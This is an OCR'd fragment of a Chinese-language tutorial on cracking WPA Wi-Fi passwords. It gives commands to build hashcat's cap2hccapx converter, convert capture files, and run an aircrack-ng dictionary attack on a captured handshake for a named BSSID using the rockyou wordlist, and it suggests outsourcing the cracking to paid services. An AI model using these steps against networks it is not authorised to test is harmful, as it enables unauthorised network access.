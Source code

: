 ![把cap转换成hccap](把cap转换成hccap.png)
* https://hashcat.net/cap2hccapx/
* cap2hccapx
    * install
        `cd ~`
        `wget https://raw.githubusercontent.com/hashcat/hashcat-utils/master/src/cap2hccapx.c`
        `gcc cap2hccapx.c`
        `mv <out_file> /bin/cap2hccapx`
        `rm cap2hccapx.c`
    * usage
        `cap2hccapx input.pcap output.hccapx [filter by essid] [additional network essid:bssid]`
* convert `.cap` file to `.pcap` file for EWSA
    * `editcap -F pcap input.cap output.pcap`
### 三. 跑包
在我们抓获握手包以后,接下来的事情就非常简单了,你可以直接用aircrack加载弱口令字典进行爆破,当然,个人是十分不建议用字典(效率,实用性,太低,过于浪费时间),推荐大家直接把包处理一下丢给hashcat或者某宝去跑就行了
* `aircarck-ng -a 2 -b C8:3A:35:30:3E:C8 -w /usr/share/wordlists/rockyou.txt ~/*.cap`
    * -a2代表WPA的握手包
    * -b指定要破解的wifi BSSID。
    * -w指定字典文件
    * 最后是抓取的包